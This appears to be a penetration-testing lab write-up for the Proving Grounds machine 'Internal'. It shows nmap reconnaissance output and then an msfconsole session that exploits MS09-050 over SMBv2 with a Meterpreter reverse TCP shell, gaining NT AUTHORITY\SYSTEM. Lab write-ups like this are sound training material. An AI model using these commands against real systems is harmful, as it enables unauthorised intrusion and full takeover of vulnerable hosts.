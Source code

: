 ```yaml
---
title: PG - Internal
categories: [ "Proving Grounds" ]
tags: [ "windows", "public exploit search" ]
description: Exploiting MS09-050 (CVE-2009-3103) on port 5357 using Metasploit to achieve remote code execution via a crafted SMBv2 request to gain NT AUTHORITY\SYSTEM.
---
```


## Recon

`nmap` discovers few open ports

`sudo nmap -Pn -sS -sC -sV -T4 -vvv -p- "$TARGET"`

```plaintext
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 125 Microsoft DNS 6.0.6001 (17714650) (Windows Server 2008 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.0.6001 (17714650)
135/tcp   open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  syn-ack ttl 125 Windows Server (R) 2008 Standard 6001 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Service
| rdp-ntlm-info:
|   Target_Name: INTERNAL
|   NetBIOS_Domain_Name: INTERNAL
|   NetBIOS_Computer_Name: INTERNAL
|   DNS_Domain_Name: internal
|   DNS_Computer_Name: internal
|   Product_Version: 6.0.6001
|_  System_Time: 2025-03-07T11:44:35+00:00
|_ssl-date: 2025-03-07T11:44:52+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=internal
| Issuer: commonName=internal
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2025-01-05T19:52:51
| Not valid after:  2025-07-07T19:52:51
| MD5:   7c2b:85a9:1fe2:c264:4be8:ed3e:e16b:274a
| SHA-1: 05e9:c5e9:7ac6:242e:0a18:ca56:e1b5:1c38:31db:d393
| -----BEGIN CERTIFICATE-----
| MIIC1DCCAbygAwIBAgIQFHV8TrpYYLdKV58423mJ8zANBgkqhkiG9w0BAQUFADAT
| MREwDwYDVQQDEwhpbnRlcm5hbDAeFw0yNTAxMDUxOTUyNTFaFw0yNTA3MDcxOTUy
| NTFaMBMxETAPBgNVBAMTCGludGVybmFsMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8A
| MIIBCgKCAQEAsuNdIa0z31V1iHCg2TtuOK+FoyVu3aXcVxL/Q8jUvhOtpe0fWn9j
| qpT+smMeA0XpJfeS917Tpy5t5gqyqUCAXPOwoeGnZu1IrvxwcMlpMImPGXeMZ+0q
| Cb/3LdlwA7WEUaZtAxpMHBx7UNbcEnj38BsrWY6zr/K7TDlFgsrsITDDuyddIjNz
| 2VU8gFBPPwzHZGMGsMgo2v3mCZnA6Xkp8tmwGq137fxrwbvzC3vNdt1/m5icsyYD
| hMglYmztE9vp0rwKB0CB5K+mwc9U7isWsRbORWutqkBbp4XI08RbSklP3A6XPUNu
| eUb1rIMV4ZbTbRTOKOGa12X7isXq6cVzOwIDAQABoyQwIjATBgNVHSUEDDAKBggr
| BgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQEFBQADggEBAE0duqOsApBP
| OvE8znZxfUgAF5f+WR+GsAPYwhV0c6GWv7PnghnTAFfoBy+8Gy1PeyrAwfL2PQqT
| AHIBgpfbkEWwA/idfGpTJNDF2n8uZ3W8hOBU7elqRAHtvj749IqnMz15n5WwsGvW
| A6hsOIoEKyluekiV9kOosMjKG9jtB+iwOe88L5EqHrEfPeml2mpvhH6VhvJZnXlJ
| 1l0/GDRRXslgyBir672iqHy25PNqJQYlEMSooxZCwKUpo345E4J6BIxeayvNeLca
| W+SKB84s3A/9pXnPEXLD7IT6I4ln9ZQeYXHK0n3U2LcSCt8JtEr1vfi4LMSboxxi
| lRXQzPUUSW8=
|_-----END CERTIFICATE-----
5357/tcp  open  http          syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Service Unavailable
49152/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49153/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49154/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49155/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49156/tcp open  unknown       syn-ack ttl 125
49157/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49158/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
Service Info: Host: INTERNAL; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008::sp1, cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2008:r2

Host script results:
|_clock-skew: mean: 1h35m59s, deviation: 3h34m40s, median: 0s
| smb2-security-mode:
|   2:0:2:
|_    Message signing enabled but not required
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 38386/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 28118/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 54232/udp): CLEAN (Timeout)
|   Check 4 (port 64884/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| nbstat: NetBIOS name: INTERNAL, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:ab:7c:45 (VMware)
| Names:
|   INTERNAL<00>         Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   INTERNAL<20>         Flags: <unique><active>
| Statistics:
|   00:50:56:ab:7c:45:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
| smb-os-discovery:
|   OS: Windows Server (R) 2008 Standard 6001 Service Pack 1 (Windows Server (R) 2008 Standard 6.0)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: internal
|   NetBIOS computer name: INTERNAL\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-03-07T03:44:35-08:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2025-03-07T11:44:34
|_  start_date: 2025-02-20T21:30:47

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 19:44
Completed NSE at 19:44, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 19:44
Completed NSE at 19:44, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 19:44
Completed NSE at 19:44, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 104.03 seconds
           Raw packets sent: 1054 (46.376KB) | Rcvd: 1012 (40.532KB)
```

There is Null Session in SMB but no available shares

Port 5357 is running on HTTP. Visited the site but returned error

![service unavailable](assets/posts/2025-08-11-Internal/service-unavailable.png)
_Service unavailable_

I'll look for what port 5357 is as this is an uncommon port

![port 5357](assets/posts/2025-08-11-Internal/port-5357.png)
_Info on port 5357_

Looks like this is Windows related service.

Next I'll looke for any exploits related to this port

![wsdapi exploit search](assets/posts/2025-08-11-Internal/wsdapi-exploit-search.png)
_WSDAPI exploit search_

Discover that it may be vulnerable to MS09-063. I'll continue searching.

![potential exploit](assets/posts/2025-08-11-Internal/potential-exploit.png)
_potential exploit_

This time I have a possible exploit from ExploitDB.

I have tried to run the exploit multiple times but it is very unreliable so I decided to look for another.

![metasploit exploit](assets/posts/2025-08-11-Internal/metasploit-exploit.png)
_Search result of exploit_

## Exploitation

I'll use this exploit from Metasploit.

Launch `msfconsole`

```plaintext
msf6 > use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms09_050_smb2_negotiate_func_index) > set rhosts 192.168.196.40
rhosts => 192.168.196.40
msf6 exploit(windows/smb/ms09_050_smb2_negotiate_func_index) > set lhost tun0
lhost => tun0
msf6 exploit(windows/smb/ms09_050_smb2_negotiate_func_index) > run
[*] Started reverse TCP handler on 192.168.45.161:4444
[*] 192.168.196.40:445 - Connecting to the target (192.168.196.40:445)...
[*] 192.168.196.40:445 - Sending the exploit packet (951 bytes)...
[*] 192.168.196.40:445 - Waiting up to 180 seconds for exploit to trigger...
[*] Sending stage (177734 bytes) to 192.168.196.40
[*] Meterpreter session 1 opened (192.168.45.161:4444 -> 192.168.196.40:49159) at 2025-08-07 09:45:41 +0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Using the Metasploit framework, I got shell as `NT AUTHORITY\SYSTEM`
